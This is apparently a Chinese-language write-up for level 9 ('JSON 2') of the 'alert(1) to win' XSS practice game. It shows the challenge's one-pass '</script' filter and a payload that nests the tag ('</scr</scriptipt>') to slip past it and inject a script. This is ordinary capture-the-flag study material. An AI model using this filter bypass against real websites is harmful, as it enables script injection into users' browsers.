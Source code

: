 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 09 - JSON 2](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/08/04/pid-3900/)]

------

## 题目

```javascript
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

------

## 解题报告

[Level 03 - JSON](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/alert/Level%2003%20-%20JSON) 的进阶版。

回顾下第 3 题的 payload 是 ：

```javascript
</script><script>alert(1);//
```

而这题对输入的字符串会做 **一次** 全局替换，把 `</script` 删掉，使得我们无法闭合标签。

但是因为替换只做一次，所以要绕过也不难，只需要把 `</script` 做一次嵌套即可，例如 `</scr</scriptipt>`，被全局替换后，留下的就是我们需要的闭合标签 `</script>` 。

因此这题可构造这样的 payload ：

```javascript
</scr</scriptipt><script>alert(1);//
```

![](http://exp-blog.com/wp-content/uploads/2019/08/b8f5348c9eadd23b74d7fbe40ef54e1c.png)



------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
